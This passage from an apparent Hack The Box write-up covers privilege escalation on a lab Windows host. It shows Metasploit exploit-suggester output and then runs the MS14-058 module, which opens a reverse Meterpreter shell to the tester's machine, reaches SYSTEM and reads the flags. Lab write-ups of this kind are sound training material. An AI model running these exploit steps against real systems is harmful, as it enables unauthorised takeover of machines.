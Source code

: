 ```
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

There’s a lot of stuff to go for.

### MS14-058

I’ll pick one (somewhat at random, though I like this one as it says the target appears to be vulnerable):

```

msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 3                                 
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.14.14:4444
[*] Launching notepad to host the exploit...
[+] Process 2304 launched.
[*] Reflectively injecting the exploit DLL into 2304...
[*] Injecting exploit into 2304...
[*] Exploit injected. Injecting payload into 2304...
[*] Payload injected. Executing exploit...        
[*] Sending stage (179779 bytes) to 10.10.10.15
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 4 opened (10.10.14.14:4444 -> 10.10.10.15:1044) at 2019-03-06 17:20:47 -0500
   
meterpreter > getuid            
Server username: NT AUTHORITY\SYSTEM

```

As I mentioned in [Devel](/2019/03/05/htb-devel.html#privesc-alternative-with-metasploit), if this fails, check that the LHOST is listening on the right IP.

From there, I can get the flags:

```

C:\Documents and Settings\Lakis\Desktop>type user.txt
700c5dc1...

C:\Documents and Settings\Administrator\Desktop>type root.txt
aa4beed1...

```